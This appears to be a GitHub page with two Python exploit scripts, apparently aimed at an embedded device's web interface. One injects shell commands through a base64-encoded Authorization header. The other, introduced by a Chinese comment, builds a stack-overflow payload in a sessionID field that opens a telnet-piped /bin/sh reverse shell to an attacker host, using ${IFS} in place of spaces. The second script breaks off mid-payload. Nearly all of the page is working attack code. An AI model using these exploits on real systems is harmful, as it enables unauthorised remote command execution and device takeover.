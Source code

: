 # Command Inject EXP

```python
import requests
import sys
import base64
import urllib3

if len(sys.argv)!=3:
	print "Parameter error. python exp.py url \"command\""
	exit(0)

url = sys.argv[1]
cmd =  sys.argv[2]

CMD=";"+cmd+";"
CMD=base64.b64encode(CMD)

header = {'Authorization':"Basic "+CMD}

urllib3.disable_warnings()

if url[-1:]=='/':
   url=url[:-1]
r = requests.get(url+"/download/dniapi/", headers=header,verify=False)

print "DONE!"

```

# Stack Overflow EXP

关于system执行命令，我并不想去另寻僻径去ROP或者是上传后门程序，我尝试了很多技巧，最终以这种较为简单且通用的方式弹shell（输入与输出分离）。

```python
import requests
import urllib3
import sys


if len(sys.argv)!=5:
	print "Parameter error. python exp.py url reverse_shell_host input_port output_port"
	exit(0)


url = sys.argv[1]
reverse_shell_host =  sys.argv[2]
input_port= sys.argv[3]
output_port= sys.argv[4]


if url[-1:]=='/':
   url=url[:-1]


cmd="telnet "+reverse_shell_host+" "+input_port+" | /bin/sh | telnet "+reverse_shell_host+" "+output_port

cmd2=cmd.replace(' ',"${IFS}")


payload = ("sessionID="+cmd2+";").ljust(268,"a")
payload += "\x1c\xb1\x01"
```